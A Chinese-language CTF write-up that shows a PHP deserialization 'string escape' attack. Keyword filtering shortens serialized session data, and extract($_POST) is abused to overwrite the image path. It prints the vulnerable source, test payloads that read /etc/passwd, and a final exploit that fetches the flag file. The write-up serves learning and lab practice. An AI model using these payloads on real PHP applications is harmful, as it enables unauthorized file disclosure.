

源码

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

在phpinfo里看到了这个：

```php
auto_append_file=d0g3_f1ag.php
```


反序列化点是 `_SESSION`，但是这里最大的问题是 `_SESSION` 中的 img 属性无法直接可控，是经过 sha1 加密的，而且 sha1 加密是不可逆的，如此一来就需要思考其他攻击方式了。

接着关注一下 `filter` 函数，很容易就想到字符串逃逸的攻击手法了，简单三步走，这里我们先测试一下

```php
$_SESSION["user"] = 'flagflag';
$_SESSION['function'] = "123";
$_SESSION['img'] = "L2V0Yy9wYXNzd2Q=";

var_dump(serialize($_SESSION));

$serialize_info = filter(serialize($_SESSION));
var_dump($serialize_info);
```

输出结果

```php
string(91) "a:3:{s:4:"user";s:8:"flagflag";s:8:"function";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}"
    
string(83) "a:3:{s:4:"user";s:8:"";s:8:"function";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}"
```

第二步，修改 payload 进行测试，让其闭合

```php
$_SESSION[function]=a";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}
```

输出结果

```php
string(132) "a:3:{s:4:"user";s:48:"a";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}";s:8:"function";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}"

string(132) "a:3:{s:4:"user";s:48:"a";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}";s:8:"function";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}"
```

被替换掉的字符是 `_SESSION['user']`

中间部分就是多余的，想办法用字符串逃逸去替代。

第三步，计算选中部分长度（构造逃逸代码）令 `$_SESSION[user]` 为6个4位长度的字符（flag）或者8个3位长度的字符（php）但是题目里的 SESSION 有三个参数，而我们第二行构造的代码中以 `}` 结尾了，所以反序列化后只能出现两个参数，没有满足要求，所以不会成功反序列化，那么只需要再任意补充一段序列化值即可。
最终 POC：

第二个s原本对应一堆flag，但是被过滤了，php会尝试向后读取24个字符，也就是*;s:8:”function”;s:59:”a”*。刚好后面就是img，这样就成功的把我们的恶意值赋值给了img。

```php
$_SESSION["user"] = 'flagflagflagflagflag';
$_SESSION['function'] = 'a";s:3:"123";s:3:"img";s:16:"L2V0Yy9wYXNzd2Q=";}';
$_SESSION['img'] = "L2V0Yy9wYXNzd2Q=";

var_dump(serialize($_SESSION));

extract($_POST);

$serialize_info = filter(serialize($_SESSION));
var_dump($serialize_info);
```

构造 EXP

```php
_SESSION[flagflag]=";s:3:"aaa";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```




